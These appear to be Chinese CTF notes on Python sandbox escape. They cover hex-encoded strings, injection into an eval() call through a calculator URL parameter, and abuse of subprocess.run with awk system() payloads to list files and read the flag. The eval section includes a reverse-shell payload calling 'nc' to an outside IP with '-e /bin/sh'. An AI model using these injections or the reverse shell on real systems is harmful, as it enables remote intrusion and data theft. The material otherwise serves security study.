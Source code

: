 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>


## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。



## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system(' nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /f*').read());
```


^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '(system("ls")' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查爱fLag文件的内容

